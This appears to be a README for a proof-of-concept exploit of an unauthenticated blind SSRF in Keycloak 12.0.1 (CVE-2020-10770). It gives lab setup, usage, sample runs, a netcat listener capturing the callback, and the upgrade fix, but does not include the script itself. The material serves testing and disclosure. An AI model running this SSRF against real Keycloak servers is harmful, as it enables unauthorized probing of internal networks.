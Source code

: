# Keycloak-12.0.1-CVE-2020-10770

> Keycloak 12.0.1 - 'request_uri ' Blind Server-Side Request Forgery (SSRF) (Unauthenticated) 

[Exploit-DB-50405](https://www.exploit-db.com/exploits/50405)

Expected outcome: Port scan of localhost or internally accessible hosts.

Intended only for educational and testing in corporate environments.

This Exploit was tested on Python 3.8.6

Vulnerable application : 

```shell
docker run -p 9990:9990 -p 8080:8080 -e KEYCLOAK_USER=admin -e KEYCLOAK_PASSWORD=admin jboss/keycloak:12.0.1
```
### Usage:

```shell
cfx:  ~/keycloak
→ python3 exploit.py -h
usage: exploit.py [-h] [-u URL]

-=[Keycloak Blind SSRF test by ColdFusionX]=-

optional arguments:
  -h, --help         show this help message and exit
  -u URL, --url URL  Keycloak Target URL (Example: http://127.0.0.1:8080)

Exploit Usage :
./exploit.py -u http://127.0.0.1:8080
[^] Input Netcat host:port -> 192.168.0.1:4444
```

### POC: 

- Scenario 1: Non Vulnerable Target

```shell
cfx:  ~/keycloak
→ python3 exploit.py -u http://localhost:8080

[+] Keycloak Bind SSRF test by ColdFusionX

[^] Input Netcat host:port -> 192.168.0.1:4444

[-] Invalid URL or Target not Vulnerable
```

- Scenario 2: Vulnerable Target

```shell
cfx:  ~/keycloak
→ python3 exploit.py -u http://localhost:8080

[+] Keycloak Bind SSRF test by ColdFusionX

[^] Input Netcat host:port -> 192.168.0.1:9994

[+] BINGO! Check Netcat listener for HTTP callback :)

```

HTTP Callback on nc listener:

```
cfx:  ~/keycloak
→ nc -lvnp 9994
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9994
Ncat: Listening on 0.0.0.0:9994
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:36866.
GET / HTTP/1.1
Host: 192.168.0.1:9994
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.13 (Java/11.0.9.1)
Accept-Encoding: gzip,deflate
```

### Solution

Upgrade to Keycloak 12.0.2 or later version

### Reference

- https://bugzilla.redhat.com/show_bug.cgi?id=1846270
- https://nvd.nist.gov/vuln/detail/CVE-2020-10770
